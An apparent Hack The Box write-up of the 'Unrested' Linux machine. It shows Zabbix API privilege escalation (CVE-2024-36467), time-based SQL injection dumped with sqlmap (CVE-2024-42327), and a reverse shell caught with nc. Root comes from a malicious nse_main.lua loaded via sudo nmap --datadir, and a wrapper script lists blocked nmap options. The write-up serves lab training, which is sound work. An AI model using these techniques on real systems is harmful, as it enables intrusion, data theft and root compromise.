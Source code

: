 ```yaml
---
title: HTB Unrested Writeup
description: Unrested is a medium-level Linux machine on HTB, which released on December 5, 2024.
date: 2025-01-15 11:33:00 +0800
categories: [HacktheBox, Medium]
tags: [ctf, hackthebox, linux]
math: true
mermaid: true
image:
  path: /assets/img/htb/unrested.htb/unrested.png
---
```

## Box Info
Unrested is a medium difficulty Linux machine hosting a version of Zabbix . Enumerating the version of Zabbix shows that it is vulnerable to both CVE-2024-36467 and CVE-2024-42327 which is leveraged to gain user access on the target. Post-exploitation enumeration reveals that the system has a sudo misconfiguration allowing the zabbix user to execute sudo /usr/bin/nmap , which is leveraged to gain root access.

## Recon
### Nmap

Starting with nmap scan as asual which gives port `22` and `80` open.
```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-unrested]
└──╼ $nmap -sVC 10.10.11.50 -oA unrested
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-15 16:28 +03
Nmap scan report for 10.10.11.50
Host is up (0.047s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.60 seconds
```
### Port 80 - Zabbix

Zabbix is an open-source monitoring tool used to track the performance and availability of IT infrastructure, including servers, networks, applications, and devices. 

We have already credentials given from the box creator `matthew:96qzn0h2e1k3`. Let's login.

![zabbix1](/assets/img/htb/unrested.htb/zabbix.jpg){: width="800" height="500" }

We got the dashboard page. The Zabbix version can be seen as `7.0.0`. Searching the web gives us two vulnerabilities. `CVE-2024-36467` and `CVE-2024-42327`.

## Shell as zabbix user
### CVE-2024-36467

CVE-2024-36467 is a vulnerability where attacker can abuse missing access controls in the `user.update` function in `CUser.php` class to change their role to a Administrator.

To exploit, we first need to authenticate to API using `api_jsonrpc.php` and our credentials. For API usage check [**this**](https://www.zabbix.com/documentation/current/en/manual/api) link.

![burp1](/assets/img/htb/unrested.htb/burp1.jpg){: width="800" height="500" }

Successfully got a API token. Before we try `user.update` to update our roles, let's try to find our `userid`. Bruteforcing the userids also work but we can see every user id using `user.get` function. Using the selectRole or SelectUsrgrps as params returns the userlist and scrolling down, we can see `matthew` user as `userid:3`.

![burp2](/assets/img/htb/unrested.htb/burp2.jpg){: width="800" height="500" }

From the json response we can also see that Administrator role is `roleid:3` and matthew user has `roleid:1` which is probably the default user id. Let's try to set our roleid to Administrator. But we get the following error.

![burp3](/assets/img/htb/unrested.htb/burp3.jpg){: width="800" height="500" }

So it seems that we can't change our role beacuse in `CUser.php` file, `validateUpdate()` and `checkHimself()` functions checks if its our own role or not. But we also see that in user.update, we can change our `usrgroup` which doesn't have any validation placed. 

We also need to find a valid "usrgrpid" to make us Administrator. Luckily, i have seen `Zabbix Administrators` id in the manual page as `7`. This is crucial beacause it saves time from `bruteforcing` all the group ids.

![burp4](/assets/img/htb/unrested.htb/burp4.jpg){: width="800" height="500" }

Now that we have the group id, let's add our user to `Zabbix Administrators` using `user.update`. Note that without this privilege escalation, we can't perform the `SQL injection` in the upcoming part .

![burp5](/assets/img/htb/unrested.htb/burp5.jpg){: width="800" height="500" }

### CVE-2024-42327

CVE-2024-42327 is a vulnerability where attacker can perform an SQL injection in `user.get` function in `CUser.php` class which can be used to leak database content.

Using the following request, we can see that request took 5,065 ms which means our `SLEEP(5)` payload resulted with time-based sql injection.

![burp6](/assets/img/htb/unrested.htb/burp6.jpg){: width="800" height="500" }

Let's replace the sqli payload with `*` and copy the request to a file. Then dump the database using `sqlmap`.

![burp7](/assets/img/htb/unrested.htb/burp7.jpg){: width="800" height="500" }

Got a 2 results for `admin` user, we know sessionids expire after some time so trying to see which is the valid one. First sessionid works out.

![burp8](/assets/img/htb/unrested.htb/burp8.jpg){: width="800" height="500" }

Now that we have admin session, using our privileges we can get `Remote Code Execution`. Trying [**this**](https://www.exploit-db.com/exploits/39937) method on exploit-db doesn't seem to work. Another way is to use `item.create` method to execute a system command.

Hosting a simple reverse shell on port 8000 and using the command below, returns a connection.

![burp9](/assets/img/htb/unrested.htb/burp9.jpg){: width="800" height="500" }

```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-unrested]
└──╼ $nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.50] 40504
bash: cannot set terminal process group (3689): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@unrested:/$ 
```
User flag can be found in `/home/matthew/user.txt`

## Shell as root

Checking our sudo privileges using `sudo -l` says we can execute `/usr/bin/nmap` as root without password.

```console
zabbix@unrested:/home$ sudo -l
Matching Defaults entries for zabbix on unrested:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zabbix may run the following commands on unrested:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap *
zabbix@unrested:/home$ 
```
Trying `--script` and `--interactive` methods on [**gtfobins**](https://gtfobins.github.io/gtfobins/nmap/) but both dont work. Also gives an unusual error.

```console
zabbix@unrested:/tmp$ TF=$(mktemp)
zabbix@unrested:/tmp$ echo 'os.execute("/bin/sh")' > $TF
zabbix@unrested:/tmp$ sudo /usr/bin/nmap --script=$TF
Script mode is disabled for security reasons.
zabbix@unrested:/tmp$ nmap --interactive
Interactive mode is disabled for security reasons.
zabbix@unrested:/tmp$
```
From this we can tell this is a `modified binary` because nmap never gives this kinda error. Checking `/usr/bin/nmap`, it is indeed modified.

```console
zabbix@unrested:/tmp$ cat /usr/bin/nmap
#!/bin/bash

#################################
## Restrictive nmap for Zabbix ##
#################################

# List of restricted options and corresponding error messages
declare -A RESTRICTED_OPTIONS=(
    ["--interactive"]="Interactive mode is disabled for security reasons."
    ["--script"]="Script mode is disabled for security reasons."
    ["-oG"]="Scan outputs in Greppable format are disabled for security reasons."
    ["-iL"]="File input mode is disabled for security reasons."
)

# Check if any restricted options are used
for option in "${!RESTRICTED_OPTIONS[@]}"; do
    if [[ "$*" == *"$option"* ]]; then
        echo "${RESTRICTED_OPTIONS[$option]}"
        exit 1
    fi
done

# Execute the original nmap binary with the provided arguments
exec /usr/bin/nmap.original "$@"
zabbix@unrested:/tmp$ 
```

Basicly we have to try options other than --interactive, --script, -oG and -iL.

Reading through the nmap documentation there is a interesting option called `--datadir`. 
This option allows you to specify a data directory other than the default nmap script directory which is `/usr/share/nmap`. 
And using `-sC` option executes the --script=default which is `nse_main.lua` in /usr/share/nmap.

By crafting a malicious nse_main.lua, we got `root`.

```console
zabbix@unrested:/tmp$ echo 'os.execute("/bin/bash -p")' > nse_main.lua
zabbix@unrested:/tmp$ sudo /usr/bin/nmap -sC --datadir=/tmp
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-15 19:43 UTC
id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag can be found in `/root/root.txt`.